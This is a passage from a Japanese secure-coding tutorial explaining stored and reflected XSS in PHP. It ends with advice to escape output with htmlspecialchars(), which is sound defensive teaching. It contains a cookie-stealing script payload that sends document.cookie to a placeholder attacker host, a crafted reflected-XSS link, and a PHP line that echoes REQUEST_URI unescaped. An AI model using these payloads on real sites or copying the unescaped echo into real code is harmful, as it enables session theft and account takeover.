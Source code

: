 **ハッカーの常套手段 😈**
> 君の記事のコメント欄に、こんなコメントを残した：`<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`。このテキストはそのままデータベースに保存された。これで、このコメントを読んだユーザーは皆、ブラウザが自動的にこのスクリプトを実行し、ログインクッキーを俺のサーバーに送信してくる。そのクッキーがあれば、彼らに成り代わってウェブサイトにログインできるのさ。

**高度な攻撃手法：ユーザーAのコードがユーザーBのデータを盗む仕組み**

多くの方がこう疑問に思うでしょう：「攻撃者は私のウェブサイトを改ざんしていないのに、どうして他のユーザーのデータを盗めるの？」完全な例で説明いたします：

1. **攻撃者Aが悪意のあるリンクを作成**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **攻撃者が被害者Bをソーシャルエンジニアリングで騙す**
   - メール：「この写真家の素晴らしい作品をご覧ください！」
   - SNS投稿、フォーラムのコメントなど

3. **被害者Bがリンクをクリックすると何が起こるか？**
   ```php
   // あなたのコード（脆弱性あり）
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Bのブラウザに実際に出力される内容
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **なぜBのデータを盗めるのか？**
   - Bは既にあなたのウェブサイトにログイン済み
   - 悪意のあるスクリプトは**あなたのドメイン**で実行されるため：
     - Bのクッキー（ログイン認証情報）を読み取れる
     - BのlocalStorageにアクセスできる
     - Bの代理でリクエストを送信できる
     - ページの内容を改ざんできる（偽のログインフォームなど）

**分かりやすい例え話**
あなたのウェブサイトを銀行だと想像してください：
- 攻撃者Aが銀行のロビーに「偽の振込用紙」（悪意のあるスクリプト）を設置
- 顧客Bがそれを正規のものだと思い、パスワードを記入
- Aが Bのパスワードを入手

XSSは攻撃者があなたの「銀行のロビー」（ウェブサイト）に「偽の振込用紙」（悪意のあるコード）を設置することを可能にします。

だからこそ`htmlspecialchars()`を使わなければなりません。これによりユーザーの入力は全て平文として表示され、実行可能なコードにならないのです。

**最悪の結末 💥**

大規模なユーザーアカウントの乗っ取り、個人情報の漏洩、ウェブサイトへのフィッシングコンテンツやマイニングスクリプトの埋め込み。

---

## 🔐 権限と認証

### 【APIエンドポイントの保護】

**なぜこれが重要なのか？**
